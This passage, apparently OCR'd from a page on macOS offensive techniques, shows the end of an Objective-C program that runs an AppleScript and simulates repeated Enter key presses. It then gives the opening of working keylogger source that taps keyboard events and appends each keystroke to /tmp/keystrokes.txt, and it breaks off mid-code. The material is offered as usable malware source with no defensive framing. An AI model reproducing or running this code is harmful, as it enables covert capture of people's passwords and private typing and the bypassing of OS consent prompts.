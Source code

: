 ```
                             "end tell\n";

    NSDictionary *errorDict = nil;
    NSAppleScript *appleScript = [[NSAppleScript alloc] initWithSource:scriptSource];
    [appleScript executeAndReturnError:&errorDict];

    if (errorDict) {
        NSLog(@"AppleScript Error: %@", errorDict);
    }
}

int main() {
    @autoreleasepool {
        dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
            RunAppleScript();
        });

        // Simulate pressing the Enter key every 0.1 seconds
        NSLog(@"Starting key presses");
        for (int i = 0; i < 10; ++i) {
            SimulateKeyPress((CGKeyCode)36); // Key code for Enter
            usleep(100000); // 0.1 seconds
        }
    }
    return 0;
}
```
```

**Keylogger**
Store the pressed keys in **`/tmp/keystrokes.txt`**

```objectivec
#import <Foundation/Foundation.h>
#import <ApplicationServices/ApplicationServices.h>
#import <Carbon/Carbon.h>

// clang -framework Foundation -framework ApplicationServices -framework Carbon -o KeyboardMonitor KeyboardMonitor.m

NSString *const kKeystrokesLogPath = @"/tmp/keystrokes.txt";

void AppendStringToFile(NSString *str, NSString *filePath) {
    NSFileHandle *fileHandle = [NSFileHandle fileHandleForWritingAtPath:filePath];
    if (fileHandle) {
        [fileHandle seekToEndOfFile];
        [fileHandle writeData:[str dataUsingEncoding:NSUTF8StringEncoding]];
        [fileHandle closeFile];
    } else {
        // If the file does not exist, create it
        [str writeToFile:filePath atomically:YES encoding:NSUTF8StringEncoding error:nil];
    }
}

CGEventRef KeyboardEventCallback(CGEventTapProxy proxy, CGEventType type, CGEventRef event, void *refcon) {
    if (type == kCGEventKeyDown) {
        CGKeyCode keyCode = (CGKeyCode)CGEventGetIntegerValueField(event, kCGKeyboardEventKeycode);

        NSString *keyString = nil;
        // First, handle special non-printable keys
        switch (keyCode) {
            case kVK_Return: keyString = @"<Return>"; break;
```